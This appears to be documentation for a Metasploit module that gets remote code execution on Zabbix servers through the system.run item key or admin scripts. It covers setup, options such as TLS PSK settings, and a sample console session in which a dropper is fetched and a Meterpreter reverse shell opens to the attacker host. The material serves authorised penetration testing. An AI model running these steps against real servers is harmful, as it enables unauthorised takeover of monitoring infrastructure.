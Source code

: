 ## Vulnerable Application

### Description

Zabbix server allow remote command execution by two different way.

The first way happen with the directive `AllowKey=system.run[*]` [[1]](https://blog.zabbix.com/zabbix-remote-commands/7500/#system.run).

This directive is disabled by default, if an attacker already know Zabbix credentials 
and the directive is enabled, he can abuse this functionnality to take control over the Zabbix server.

The second way is by creating a script 
[[2]](https://www.zabbix.com/documentation/devel/en/manual/web_interface/frontend_sections/administration/scripts) 
in Zabbix and use it on a host.

### Setup

An easy way to setup a Zabbix server is to download and run their [appliance](https://www.zabbix.com/download_appliance).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This uses a Linux dropper to execute code.

### 1

This executes a Unix command.

## Options

### TECHNIQUE

#### script
If this option is set, the exploit will try to use a script, in order to achieve RCE.

#### item
If this option is set, the exploit will try to use the key `system.run[*]` in an item, in order to achieve RCE, only works in Zabix >= 4.0.

### TLS_PSK
Communication between an agent and the server can be encrypted with TLS using a PSK (pre-shared key).

If the server is configured to enforce that, you have to get the key from the web interface (browse inside a host 
and navigate to `Encryption` tab) and specifiy it with this option, otherwise RCE is not gonna happen.

### TLS_PSK_IDENTITY

This is also inside an host, in the `Encryption` tab.

## Scenarios

### Zabbix server from [VMWare](#setup).

```
msf6 > use exploit/multi/http/zabbix_script_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/zabbix_script_exec) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/http/zabbix_script_exec) > set USE_ITEM true
USE_ITEM => true
msf6 exploit(multi/http/zabbix_script_exec) > set LHOST eth0
LHOST => 192.168.0.129
msf6 exploit(multi/http/zabbix_script_exec) > run
[*] Started reverse TCP handler on 192.168.0.129:4444 
[+] Sucessfully logged in
[*] Getting a valid group id...
[*] Creating a host called kTsSUTGmgKCwcsbMjZ
[*] Using URL: http://0.0.0.0:8081/4J54NLVPQsj
[*] Local IP: http://127.0.0.1:8081/4J54NLVPQsj
[*] Creating an item called MkMczJNYyEoSBTwsBG
[*] Client 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0) requested /4J54NLVPQsj
[*] Sending payload to 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0)
[*] Sending stage (984904 bytes) to 192.168.0.130
[*] Meterpreter session 1 opened (192.168.0.129:4444 -> 192.168.0.130:33354 ) at 2022-01-08 01:20:47 +0000
[*] Server stopped.

meterpreter > getuid
Server username: zabbix
meterpreter > 
```
